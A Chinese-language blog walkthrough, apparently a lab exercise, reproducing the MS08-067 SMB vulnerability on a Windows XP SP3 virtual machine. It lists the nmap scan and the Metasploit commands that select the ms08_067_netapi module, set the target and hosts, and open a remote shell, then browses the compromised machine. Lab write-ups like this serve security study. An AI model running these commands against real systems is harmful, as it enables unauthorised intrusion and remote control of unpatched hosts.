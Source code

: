 ```yaml
---
title: 【漏洞】windows漏洞MS08-067复现与攻击
date: 2024-11-20
slug: ms08-067review-atk
image: done.png
tag: 
    - CTF
    - 网络安全
    - windows
    - 漏洞
categories: 
    - 网络安全

---
```


## 准备工作

环境：

> 攻击机（192.168.15.128）：Kali GNU/Linux Rolling x86_64
>
> 靶机（192.168.15.129）：
> Windows XP Professional with Service Pack 3 (x86) 

本次攻击测试靶机镜像来自[MSDN, 我告诉你](https://msdn.itellyou.cn/)，特别鸣谢！

由于该漏洞已于2008年末被巨硬以发布补丁包的方式修复，所以有些较新的或者整合的镜像<mark>无法复现此漏洞</mark>，本人盆友亲测，故在此给出本人所用镜像，有需要可以到上面的网站下载：

````
zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_x14-80404.iso
SHA1: 69DBF131116760932DCF132ADE111D6B45778098
文件大小: 601.04MB
发布时间: 2008-05-01
````

## 开始

配置好XP系统，`win+R`输入`cmd`，在命令窗口执行查询ip命令：

````cmd
ipconfig
````

![ipconfig](ipconfig.png)

可知靶机ip为：`192.168.15.129`

在我们的kali里依法炮制，查询ip：

````bash
ifconfig
````

![ifconfig](ifconfig.png)

可知攻击机ip为：`192.168.15.128`

两台机器在同一网段，方便我们进行后续操作。

## 攻击

请出`nmap`，对靶机进行扫描：

````bash
nmap -sV -Pn 192.168.15.129  
````

解释下命令的参数：

`-sV` 表示启用版本检测。-sV 使得 nmap 在扫描时不仅会检查开放的端口，还会尝试确定运行在这些端口上的服务的版本信息。例如，如果某个端口上运行的是 HTTP 服务，nmap 会尝试识别是 Apache、Nginx 还是其他 Web 服务，并尝试获取它们的版本号。

`-Pn` 该选项告诉 nmap 不进行主机发现（Host Discovery）。通常，nmap 在扫描前会先进行主机发现，以确定目标主机是否在线（通过发送 ICMP 请求或 SYN 包等方式）。-Pn 选项告诉 nmap 跳过这一步，直接假设目标主机是在线的并进行扫描。

扫描得到：

![nmap](nmap.png)

可以看到靶机开放了三个端口，其中就有我们今天要利用的`445`端口。

直接启动`msf`进行漏洞利用：

````bash
msfconsole  
````

因为我们已经知道了这个漏洞叫`MS08-067`，所以直接搜索：

````bash
msf6> search ms08-067
````

![msf-search](msf.png)

可以看到它找到了一个结果，来使用它：

````bash
msf6> use exploit/windows/smb/ms08_067_netapi
````

或：

````bash
msf6> use 0
````

然后我们来选择靶机版本`target`，本人的msf在使用`search`后会自动列出所有`target`，但是盆友亲测不会，所以使用命令来列出所有`target`：

````bash
msf6> show target
````

这里一定要注意选择你自己的靶机版本，比如盆友使用的是简体中文版的winxp sp3，选用繁中版本xp或者是server的都会无法连接：

````
The connection was refused by the remote host (192.168.91.131:445).
````

默认`target`为第一个（0），使用`set TARGET 序号/名称`来设定`target`：

````bash
msf6> set TARGET 'Windows XP SP3 Chinese - Simplified(NX)'
````

效果图在下一张图片。

不建议复制我的，因为不同环境它的序号和名字也会变，比如我的简中XP序号是35，朋友的是10。

![different](different.png)

如果设定了错误的`target`并且已经执行了的话，需要重启靶机，不然会无法连接到靶机的445端口。

配置好target后，继续使用`set`来配置剩下需要配置的参数，查看所需参数：

````bash
msf6> show options
````

![options](msf-show-options.png)

配置`RHOSTS`、`RPORT`:

````bash
msf6> set RHOSTS 192.168.15.129
msf6> set RPORT 445
````

这里遇到很神奇的事，可能是我俩版本不一样，我可以使用`RHOST`代替`RHOSTS`，但是朋友这样输就会报错，以及可能msf不会给你自动配置`RPORT`、`LHOST`，具体需要参考上面的`options`是否已有值。

一切准备好后，开始攻击！

输入`run`:

````bash
msf6> exploit(windows/smb/ms08_067_netapi) > run
````

![set](gatch.png)

成功拿到shell!

来测试一下：

````bash
cd ..
mkdir Ciallo
cd Ciallo
edit hacknya.txt
sysinfo
````

![test](done.png)

完美！

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=1965377560&auto=0&height=66"></iframe>